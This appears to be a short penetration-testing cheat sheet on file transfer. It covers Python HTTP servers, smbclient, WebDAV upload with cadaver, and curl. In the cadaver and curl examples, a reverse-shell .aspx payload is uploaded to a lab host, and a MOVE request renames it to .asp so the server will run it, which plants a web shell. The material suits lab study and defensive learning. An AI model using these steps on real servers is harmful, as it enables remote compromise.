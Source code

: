# File Transfer


## HTTP Server

> python -m SimpleHTTPServer 8000

> python3 -m http.server 8000


## SMB File Upload

**Method 1: Cadaver**

```
cadaver http://10.11.1.13/scripts/
put /root/Desktop/shellLER/phpReverseShell/aspunstage.aspx
```

**Method 2: Smbclient**

```
$ smbclient //server/share -c 'cd c:/remote/path ; put local-file'
```
Second example
```
smbclient -W ENGR_STUDENT -U EngrID //hnas.engr.uconn.edu/EngrGroupMixed
get <somethingRecieve>.tgz
put <somethingSend>.tgz
```

**Method 3: CURL**

Change file name with MOVE method. aspx -> asp

```
curl -X MOVE --header    "Destination:http://10.11.1.13/scripts/aspunstaged.asp" "http://10.11.1.13/scripts/aspunstaged.aspx"
```
